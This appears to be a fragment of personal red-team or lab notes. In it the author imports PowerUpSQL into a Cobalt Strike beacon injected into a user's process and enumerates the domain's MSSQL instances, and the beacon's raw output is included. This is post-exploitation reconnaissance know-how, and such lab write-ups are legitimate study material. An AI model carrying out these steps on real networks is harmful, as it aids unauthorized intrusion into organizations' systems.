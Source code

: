 importing PowerUPSQL.ps1
`powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1`
current sessions to this point. Injected into `mhindle process`
![[Pasted image 20240216203035.png]]

shows the name of the MSSQL database is `db.kato.org`
```powershell
[02/17 01:26:49] beacon> powerpick Get-SQLInstanceDomain
[02/17 01:26:49] [*] Tasked beacon to run: Get-SQLInstanceDomain (unmanaged)
[02/17 01:26:49] [+] host called home, sent: 138058 bytes
[02/17 01:26:52] [+] received output:


ComputerName     : db.kato.org
Instance         : db.kato.org,1433
DomainAccountSid : 15000005210002142321161618413321520524029150984400
DomainAccount    : DB$
DomainAccountCn  : DB
Service          : MSSQLSvc
Spn              : MSSQLSvc/db.kato.org:1433
LastLogon        : 2/17/2024 1:11 AM
Description      : 

ComputerName     : db.kato.org
Instance         : db.kato.org
DomainAccountSid : 15000005210002142321161618413321520524029150984400
DomainAccount    : DB$
DomainAccountCn  : DB
Service          : MSSQLSvc
Spn              : MSSQLSvc/db.kato.org
LastLogon        : 2/17/2024 1:11 AM
Description      : 

```